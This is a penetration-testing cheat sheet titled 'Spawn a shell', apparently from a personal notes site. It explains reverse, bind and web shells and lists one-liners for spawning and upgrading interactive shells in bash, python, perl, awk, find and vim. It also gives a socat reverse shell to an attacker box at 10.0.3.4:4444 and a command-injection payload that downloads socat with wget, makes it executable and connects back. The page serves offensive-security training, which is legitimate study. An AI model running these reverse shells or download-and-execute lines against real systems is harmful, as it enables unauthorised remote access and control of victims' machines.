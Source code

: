 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```

# Spawn a shell

??? abstract "All about shells"
    | **Shell Type**                       | **Description**                                                                                                                                                                                                                                   |
    | ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                    |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                     |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).
    - 


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| [Reverse shell](reverse-shells.md) |  Initiates a connection back to a "listener" on our attack box. | 
| [Bind shells](bind-shells.md) | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| [Web shells](web-shells.md) | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### bash

```bash
# Upgrade shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### python

```bash
 # using python for a pseudo terminal
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c "import pty;pty.spawn('/bin/bash')"
```

### ssh

```bash
/bin/sh -i
```


### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### ruby

```bash
ruby:  exec "/bin/sh";
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>

# In one line:
reset; export SHELL=bash; export TERM=xterm-256color; stty rows <num> columns <cols>

```

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



### awk

```bash
awk 'BEGIN {system("/bin/sh")}'
```


### find 

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.

find . -exec /bin/sh \; -quit
# This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
```


### VIM

```bash
vim -c ':!/bin/sh'
```

**VIM escape**:

```shell-session
vim
:set shell=/bin/sh
:shell
```
